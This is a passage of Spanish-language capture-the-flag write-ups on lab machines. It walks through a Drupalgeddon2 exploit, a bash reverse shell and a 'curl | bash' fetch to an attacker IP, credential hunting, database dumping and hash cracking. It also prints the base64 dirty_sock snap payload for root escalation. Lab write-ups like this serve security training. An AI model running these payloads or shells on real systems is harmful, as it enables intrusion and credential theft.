\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-2}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{druppalgeddon-1}{%
\subsection*{Druppalgeddon}\label{druppalgeddon-1}}
\addcontentsline{toc}{subsection}{Druppalgeddon}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ruby}\NormalTok{ druppalgeddon2.rb 10.10.10.233}
\FunctionTok{whoami}
\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{apache}
\ExtensionTok{ifconfig}
\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{10.10.10.233}
\end{Highlighting}
\end{Shaded}

Entablamos ahora una reverse shell para sacarse de este contexto.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  druppalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.20/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Esto no functiona porque el comando contiene \textbf{bad chars}. Como la maquina no tiene \textbf{nc} ni \textbf{ncat} la tecnica seria la siguiente:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un archivo \emph{index.html} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{#!/bin/bash}

\NormalTok{bash -i >}\ErrorTok{&}\NormalTok{ /dev/tcp/10.10.14.20/443 0>}\ErrorTok{&}\NormalTok{1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servidor web con \emph{python}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la drupalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s 10.10.14.20 }\KeywordTok{|} \FunctionTok{bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-2}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-2}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\end{Highlighting}
\end{Shaded}

En este caso no nos va el tratamiento de la \textbf{TTY}. En este caso lo que hacemos es utilizar el \texttt{rlwrap\ nc\ -nlvp\ 443}

\hypertarget{investigamos-la-maquina-1}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-1}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pwd}
\CommentTok{#Output}
\ExtensionTok{/var/www/html}

\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}

\FunctionTok{grep}\NormalTok{ -r -E -i }\StringTok{"user|pass|key"}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}

\FunctionTok{grep}\NormalTok{ -r -E -i }\StringTok{"username|pass|key"}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}
\end{Highlighting}
\end{Shaded}

Como hay muchas cosas y es dificil de analizar usamos el comando \texttt{find} y vamos quitando con el comando \texttt{grep\ -v} las cosas que no
nos interresan poco a poco.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"themes"}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"themes|modules"}
\end{Highlighting}
\end{Shaded}

Ahora ya se puede investigar manualmente. Apuntamos los recursos que parecen interesantes.

\begin{itemize}
\tightlist
\item
  authorize.php
\item
  cron.php
\item
  includes/database
\item
  includes/password.inc
\item
  sites/default/
\end{itemize}

Lo miramos hasta que encontremos cosas interesantes. En un fichero encontramos un user \textbf{drupaluser} y su contraseña.

Miramos los usuarios de la maquina

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"sh$"}\NormalTok{ /etc/passwd}
\CommentTok{#Output}
\ExtensionTok{root}
\ExtensionTok{brucetherealadmin}
\end{Highlighting}
\end{Shaded}

Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros \emph{mysql} intentamos conectar con el \textbf{drupaluser} y functiona.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'show databases;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; show tables;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; describe users;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; select name,pass from users;'}
\end{Highlighting}
\end{Shaded}

Encontramos el usuario `brucetherealadmin' y su contraseña encryptada.

\hypertarget{john-1}{%
\subsection*{John}\label{john-1}}
\addcontentsline{toc}{subsection}{John}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  copiamos el hash en un fichero llamado \texttt{hash}
\item
  john --wordlist=/usr/share/wordlists/rockyout.txt hash
\end{enumerate}

Ya tenemos contraseña para el usuario \emph{brucetherealadmin}

\hypertarget{ssh}{%
\subsection*{SSH}\label{ssh}}
\addcontentsline{toc}{subsection}{SSH}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ brucetherealadmin@10.10.10.233}
\end{Highlighting}
\end{Shaded}

ya tenemos la flag user.txt

\hypertarget{escalada-de-privilegios-1}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-1}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima-2}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima-2}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente
\href{https://initblog.com/2019/dirty-sock/}{Linux Privilege Escalation via snapd (dirty\_sock exploit)}. Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/}
\StringTok{/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh}
\StringTok{ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5}
\StringTok{TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo}
\StringTok{T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl}
\StringTok{Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt}
\StringTok{ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv}
\StringTok{ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n}
\StringTok{L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt}
\StringTok{b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe}
\StringTok{rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj}
\StringTok{rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA}
\StringTok{AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2}
\StringTok{XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5}
\StringTok{RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA}
\StringTok{AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw"} \KeywordTok{|} \FunctionTok{xargs} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{' '}
\end{Highlighting}
\end{Shaded}

copiamos el output y recreamos el paquete snap malicioso

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\ExtensionTok{pytho}\NormalTok{ -c }\StringTok{'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD}
\StringTok{//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29}
\StringTok{jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1}
\StringTok{EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q}
\StringTok{gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N}
\StringTok{1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB}
\StringTok{leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA}
\StringTok{gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA}
\StringTok{BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F}
\StringTok{qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4}
\StringTok{wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj}
\StringTok{NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt}
\StringTok{vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA}
\StringTok{AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="'} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ setenso.snap}

\FunctionTok{sudo}\NormalTok{ /usr/bin/snap install setenso.snap --devmode}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{sudo}\NormalTok{ dirty_sock }\OperatorTok{>}\NormalTok{ password dirty_sock}
\FunctionTok{sudo}\NormalTok{ su }\OperatorTok{>}\NormalTok{ password dirty_sock}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{joker}{%
\chapter*{Joker}\label{joker}}
\addcontentsline{toc}{chapter}{Joker}

\hypertarget{introduccion-3}{%
\section*{Introduccion}\label{introduccion-3}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 26/07/2021 se llama Joker.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1098850596}{Twitch: S4vitaar Joker maquina}

\hypertarget{enumeracion-3}{%
\section*{Enumeracion}\label{enumeracion-3}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-3}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-3}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-3}{%
\subsubsection*{Ping}\label{ping-3}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.21}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-3}{%
\subsubsection*{Nmap}\label{nmap-3}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.21 }
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.21 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,3128 10.10.10.21 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
3128 & squid-proxy & Browsear la web por este puerto & Checkear el exploit\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{browsear-la-web-por-el-puerto-3128}{%
\subsubsection*{Browsear la web por el puerto 3128}\label{browsear-la-web-por-el-puerto-3128}}
\addcontentsline{toc}{subsubsection}{Browsear la web por el puerto 3128}

Browseando la web con el url \texttt{http://10.10.10.21:3128} no da un error que es normal porque no pasamos por el \textbf{squid-proxy}.

Utilizamos el \textbf{FoxyProxy} para añadir las credenciales del Proxy. Como no tenemos el usuario y la contraseña, dejamos estos datos
vacios.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/squid-foxy-no-creds} \caption{foxyproxy con squid proxy}\label{fig:unnamed-chunk-5}
\end{figure}

\hypertarget{uso-de-curl-con-proxy}{%
\subsubsection*{Uso de curl con proxy}\label{uso-de-curl-con-proxy}}
\addcontentsline{toc}{subsubsection}{Uso de curl con proxy}

La idea aqui es utilizar la herramienta \textbf{curl} con en argumento \texttt{-\/-proxy} para ver si el puerto 80 esta abierto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s http://127.0.0.1 --proxy http://10.10.10.21:3128 }\KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}

Hay un error de typo \textbf{ACCESS DENIED}, quiere decir que necesitamos un usuario y una contraseña.

Como nada esta abierto intentamos scanear la maquina por UDP

\hypertarget{nmap-upd-scan}{%
\subsubsection*{NMAP UPD Scan}\label{nmap-upd-scan}}
\addcontentsline{toc}{subsubsection}{NMAP UPD Scan}

Como los scan de \textbf{NMAP} en UDP tarda un buen rato, decidimos ir a por los puertos mas interesantes.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sU -p69,161 10.10.10.21 -oN udpScan}
\end{Highlighting}
\end{Shaded}

encontramos el puerto del tftp que esta abierto

\hypertarget{tftp}{%
\subsubsection*{TFTP}\label{tftp}}
\addcontentsline{toc}{subsubsection}{TFTP}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tftp}\NormalTok{ 10.10.10.21}
\end{Highlighting}
\end{Shaded}

Nos podemos conectar pero no podemos cojer ficheros como \texttt{/etc/passwd}, \texttt{/etc/hosts} y otros. Tiramos por el fichero de config de squid.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{get}\NormalTok{ /etc/squid/squid.conf}
\end{Highlighting}
\end{Shaded}

\hypertarget{check-squid.conf-file}{%
\subsubsection*{Check squid.conf file}\label{check-squid.conf-file}}
\addcontentsline{toc}{subsubsection}{Check squid.conf file}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ squid.conf }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"^#"} \KeywordTok{|} \FunctionTok{sed} \StringTok{'/^\textbackslash{}s*$/d'}
\end{Highlighting}
\end{Shaded}

Vemos que hay un fichero password. Lo descargamos desde el \textbf{tftp}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{get}\NormalTok{ /etc/squid/passwords}
\end{Highlighting}
\end{Shaded}

Lo analizamos y encontramos un usuario y una contraseña encriptada.

\hypertarget{evaluacion-de-vulnerabilidades-3}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-3}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{john-2}{%
\subsection*{John}\label{john-2}}
\addcontentsline{toc}{subsection}{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt passwords}
\end{Highlighting}
\end{Shaded}

Ya hemos crackeado la contraseña. Intentamos conectar por ssh pero no funciona.

Pues ponemos las credenciales en el foxyproxy.

\hypertarget{conectamos-por-la-web-a-la-127.0.0.1}{%
\subsection*{Conectamos por la web a la 127.0.0.1}\label{conectamos-por-la-web-a-la-127.0.0.1}}
\addcontentsline{toc}{subsection}{Conectamos por la web a la 127.0.0.1}

Hay una pagina que propone shortear una url. Vamos a testear el servicio web

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En el servicio intentamos shortear la url \texttt{http://10.10.14.20/test}
\end{enumerate}

No hace nada. Vemos en el codigo fuente que hay un recurso \texttt{/list}. La idea aqui es aplicar fuzzing. Como tenemos que pasar
por un proxy, vamos a utilizar \textbf{Burp} para conectar el fuzzer con el proxy.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un Proxy Server.

  \begin{itemize}
  \item
    En la pagina \textbf{User options} de Burp, creamos un proxy server

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/burp-create-proxy-server} \caption{BurpSuite: create proxy server}\label{fig:unnamed-chunk-6}
      \end{figure}
  \end{itemize}
\item
  Añadir el puerto 80 para utilizar \textbf{curl} y \textbf{wfuzz}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/burp-add-port-80-1} \caption{BurpSuite: create proxy server 1}\label{fig:unnamed-chunk-7}
   \end{figure}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/burp-add-port-80-2} \caption{BurpSuite: create proxy server 2}\label{fig:unnamed-chunk-8}
   \end{figure}
\item
  Testeamos con \textbf{curl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s http://127.0.0.1 }\KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya no nos pone el mensaje de error \texttt{Conexion\ reusada}, quiere decir que el server proxy que hemos creado con
BurpSuite funciona. Ya podemos aplicar fuzzing.

\hypertarget{wfuzz-2}{%
\subsection*{WFUZZ}\label{wfuzz-2}}
\addcontentsline{toc}{subsection}{WFUZZ}

\begin{Shaded}
\begin{Highlighting}[]
